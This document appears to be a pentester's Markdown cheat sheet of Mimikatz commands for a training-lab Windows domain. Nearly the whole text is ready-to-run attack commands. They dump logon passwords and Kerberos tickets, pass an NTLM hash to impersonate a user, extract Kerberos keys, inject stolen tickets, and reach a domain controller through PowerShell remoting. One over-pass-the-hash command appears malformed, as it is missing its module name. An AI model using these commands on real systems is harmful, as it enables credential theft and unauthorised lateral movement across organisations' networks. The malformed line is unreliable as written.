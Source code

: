 Attacks: #PtH #PtT 
# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```